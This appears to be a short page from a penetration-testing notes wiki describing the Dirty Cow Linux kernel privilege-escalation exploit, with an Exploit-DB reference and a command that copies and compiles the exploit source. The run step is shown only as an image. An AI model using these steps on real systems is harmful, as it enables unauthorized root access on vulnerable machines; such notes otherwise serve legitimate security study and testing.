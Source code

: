 # Linux System

## Kernel

A computer program that controls everything in the system. It facilitates interactions between hardware and software components, essentially a translator.

### Dirty Cow Linux Kernel 2.6.22 < 3.9

Exploit-DB: [https://www.exploit-db.com/exploits/40839](https://www.exploit-db.com/exploits/40839)

Download and compile:

```
cp /usr/share/exploitdb/exploits/linux/local/40839.c . && gcc -pthread 40839.c -o cow -lcrypt
```

Run:

![](<../../../.gitbook/assets/image (1).png>)
